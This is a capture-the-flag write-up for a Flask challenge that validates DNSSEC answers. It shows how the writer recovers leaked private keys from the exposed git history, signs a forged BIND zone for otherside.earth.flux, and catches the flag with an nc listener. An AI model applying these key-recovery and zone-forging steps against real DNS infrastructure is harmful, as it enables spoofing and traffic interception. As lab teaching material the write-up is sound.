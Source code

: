 In the page source code, an HTML comment reveals the presence of a source code archive:

```html
<!-- <a href="/static/source.zip">Source</a> -->
```

The application is Flask based and has a unique view handling a unique form input. If the submitted input is a valid IPv4 address, the server sends a DNSSEC request and asks for a DNSSEC A record for an unknown domain. The returned record is then checked with hardcoded private keys.

```python
def correct_dnssec(nsaddr, domain):
    #
    name = dns.name.from_text(domain)
    key = {
        name: dns.rrset.from_text(
            domain, 3600, 'IN', 'DNSKEY',
            '256 3 7 [...]',
            '257 3 7 [...]'
        )
    }
    request = dns.message.make_query(domain, dns.rdatatype.A, want_dnssec=True)
    try:
        request = dns.query.udp(request, nsaddr, timeout=7)
    except:
        return False
    answer = request.answer
    if len(answer) < 2:
        # dnsserc not supported
        return False
    else:
        try:
            dns.dnssec.validate(answer[0], answer[1], key)
            return str(answer[0].to_rdataset()[0])
        except:
            # dnssec failed
            return False
```

A `tcpdump` quickly reveals the domaine name for which the record is asked:

```
12:08:32.978150 IP 149.13.33.84.39499 > XXXXXXXXXXXXXXX: 1749+ [1au] A? otherside.earth.flux. (49)
```

There is currently no other possibility to forge valid DNSSEC records: we need the associated private keys. A team mate noticed that the archive contained a complete git repository, allowing us to dig into the commit history:

```
$ git log
commit bf3b232d26757f78a0c7b60b5643bd5ccaadeeef (HEAD -> master)
Author: kunte_ <rip@fluxfingers.net>
Date:   Tue Oct 3 17:58:35 2017 +0200

    added jquery

commit 94067e4502a5134d912b6964de7f23a438b7f814
Author: kunte_ <rip@fluxfingers.net>
Date:   Tue Oct 3 17:57:23 2017 +0200

    fixed gitignore

commit eddb23375ea4e08c67a63088ea08b4d5fc18a406
Author: kunte_ <rip@fluxfingers.net>
Date:   Tue Oct 3 17:56:37 2017 +0200

    fixed typo in name
```

Quickly, you can reach the project state containing these wanted keys !

```
git checkout 94067e4502a5134d912b6964de7f23a438b7f814
$ ls keys/
Ksecret+007+11537.key      Ksecret+007+26883.key
Ksecret+007+11537.private  Ksecret+007+26883.private
```

After spending a few hours googling "How to configure a BIND server with DNSSEC", I finally got a working setup.

Put all the files located in subdirectory `text` in your system `/etc/bind` directory:

  * `db.otherside.earth.flux` : the zone file
  * `Ksecret+007+11537.key` : the KSK public part
  * `Ksecret+007+11537.private` : the KSK private part
  * `Ksecret+007+26883.key` : the ZSK public part
  * `Ksecret+007+26883.private` : the ZSK private part

Patch the zone file in order to make the record otherside.earth.flux pointing to a controlled IP address:

```
@ IN A AA.BB.CC.DD
```

Once you're done, sign the zone file with you keys:
```
/etc/bind# dnssec-signzone -t -g -k Ksecret+007+26883.key -o otherside.earth.flux db.otherside.earth.flux Ksecret+007+11537.key
```

Finally, add the zone in your bind configuration file `/etc/bind/named.conf.local` and restart your BIND:

```
zone "otherside.earth.flux" {
	type master;
	file "/etc/bind/db.otherside.earth.flux.signed";
};
```

The DNSSEC server should be working and you should be able to get a signed record with the following command:

```
dig A otherside.earth.flux @localhost +noadditional +dnssec +multiline
```

The challenge is almost done, submit your IP address into the web form and monitor incoming packets with a `tcpdump` capture.

You will easily notice a SYN packet incoming on the TCP port 1337. Submit the IP again with a listening service for retrieving the flag:

```
# nc -lvp 1337
listening on [any] 1337 ...

149.13.33.84: inverse host lookup failed: Unknown host
connect to [62.210.72.56] from (UNKNOWN) [149.13.33.84] 35952
Server Hello.
flag{bb5986219c9811aa66e7ebeb05d7f757}
```
